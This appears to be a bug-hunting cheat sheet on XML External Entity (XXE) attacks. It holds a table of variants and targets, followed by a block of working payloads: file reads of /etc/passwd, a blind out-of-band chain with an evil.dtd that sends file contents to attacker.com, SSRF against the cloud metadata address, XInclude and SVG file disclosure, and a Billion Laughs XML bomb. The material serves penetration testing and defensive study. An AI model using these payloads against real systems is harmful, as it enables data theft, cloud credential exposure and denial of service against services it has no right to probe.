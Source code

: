 | **Variant** | **Commonly Found In** | **Example Stack/Tech** | **Key Hunting Areas** | **Attack Payloads** |
|---|---|---|---|---|
| **Classic/In-band XXE** | XML parsers | SOAP APIs, RSS/Atom feeds, SAML authentication | XML upload/parsing endpoints, APIs accepting XML | File disclosure via external entities |
| **Blind/Out-of-band XXE** | Same as above | XML processors without error output | Same as above | OOB data exfiltration via DNS/HTTP |
| **XXE via File Upload** | Document processors | SVG, DOCX, XLSX, PPTX, ODT uploads | Office document uploads, image uploads | External entities in XML-based file formats |
| **XXE to SSRF** | XML parsers with network access | Same as above | Internal network from XML parser | Access internal services, cloud metadata |
| **XInclude Attacks** | Systems processing XML fragments | Partial XML processing | XML snippets embedded in larger documents | Inject XInclude to read files |
| **XXE via SVG** | SVG processors | Image uploads accepting SVG | Profile pictures, logo uploads | SVG with external entities |
| **XXE in SOAP APIs** | SOAP web services | Legacy enterprise APIs | SOAP endpoints | XXE in SOAP body/envelope |
| **Billion Laughs Attack (XML Bomb)** | XML parsers | Any XML processing | DoS via entity expansion | Recursive entity definitions causing DoS |

**Tech Stack Focus:**
- **Critical**: Java (DOM, SAX, StAX parsers), .NET (XmlReader), PHP (libxml)
- **High Priority**: SOAP web services, SAML implementations, RSS aggregators
- **Modern**: SVG processors, Office document converters, XML-based APIs

**XXE Attack Payloads:**

```xml
<!-- Classic XXE - File Disclosure -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>

<!-- Blind XXE - Out-of-Band -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
<data>test</data>

<!-- evil.dtd on attacker server -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;

<!-- XXE via SVG -->
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/hostname" >]>
<svg width="500" height="500">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>

<!-- XInclude Attack -->
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>

<!-- SSRF via XXE -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<data>&xxe;</data>

<!-- Billion Laughs (DoS) -->
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
]>
<lolz>&lol4;</lolz>
```